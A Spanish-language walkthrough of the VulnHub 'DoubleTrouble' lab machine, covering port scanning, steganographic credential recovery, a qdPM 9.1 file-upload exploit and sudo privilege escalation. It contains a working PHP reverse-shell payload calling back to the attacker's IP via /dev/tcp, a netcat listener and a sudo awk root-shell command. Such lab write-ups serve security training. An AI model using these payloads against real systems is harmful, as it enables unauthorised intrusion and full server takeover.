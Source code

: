 ```yaml
---
title: Writeup de la máquina DoubleTrouble
date: 2024-07-20
categories: [WRITEUPS, VulnHub]
tags: [stegseek, metadatos]  # TAG names should always be lowercase
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con *NMAP*, para comprobar cuales de ellos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.152 -n -Pn -v
```

![picture](/assets/images/vulnhub/double1.png)

Al no encontrar ningún puerto que nos interese para utilizar los scripts de *NMAP*, nos iremos a la página web para ver de que se trata.

Tenemos un panel de autenticación de qdPM 9.1, pero no encuentro nada interesante.

![picture](/assets/images/vulnhub/double2.png)

Realizando **Fuzzing** con **Gobuster**, encuentro las siguientes entradas.

```bash
gobuster dir -u http://192.168.1.152/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/double3.png)

En la ruta ***/secret/*** encontramos la siguiente imagen.

![picture](/assets/images/vulnhub/double4.png)

Nos la vamos a descargar para ver si hubiera **metadatos**.

```bash
wget http://192.168.1.152/secret/doubletrouble.jpg
```

Con la herramienta ***stegseek***, que podemos encontrar en [**GitHub**](https://github.com/RickdeJager/stegseek), extraemos los **metadatos**.

![picture](/assets/images/vulnhub/double5.png)

Nos encuentra la *passphrase*, y otro archivo cuyo nombre original es "**creeds.txt**", y actualmente llamado "**doubletrouble.jpg.out**", el cual contiene credenciales.

![picture](/assets/images/vulnhub/double6.png)

---

## **Explotación**

A continuación, probaremos en el panel de autenticación con las credenciales encontradas en los metadatos de la imagen. 

Y obtenemos acceso dentro de la plataforma de **qdPM**.

![picture](/assets/images/vulnhub/double7.png)

Buscando en internet, encuentro una *vulnerabilidad* para esta versión, la cual podremos subir archivos **PHP** en la foto de los detalles de la cuenta.

Lo siguiente, será subir una **Reverse Shell**.

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/'Nuestra IP'/4444 0>&1'");
?>
```

![picture](/assets/images/vulnhub/double8.png)

Al subirlo nos saldrá un error, pero aun así se habrá subido correctamente.

![picture](/assets/images/vulnhub/double9.png)

Nos ponemos en escucha con **Ncat** con un **Listener**.

```bash
nc -nlvp 4444
```

Y nos dirigimos a la ruta de los archivos subidos de los usuarios, clicamos en la **Reverse Shell** para que se ejecute.

![picture](/assets/images/vulnhub/double10.png)

Y estaremos dentro del servidor como el usuario **www-data**.

![picture](/assets/images/vulnhub/double11.png)

---

## **Escalada de privilegios**

Buscando por el servidor, no encontramos ningún usuario más allá de **www-data** y **root**, ni nada interesante.

Listando los permisos de **SUDO** del usuario **www-data**, vemos que no necesita contraseña para el binario ***awk***.

![picture](/assets/images/vulnhub/double12.png)

En la web [**GTFOBins - awk**](https://gtfobins.github.io/gtfobins/awk/), nos muestra como escalar privilegios.

Ejecutamos el siguiente comando, y nos migrará al usuario **root**.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

![picture](/assets/images/vulnhub/double12.png)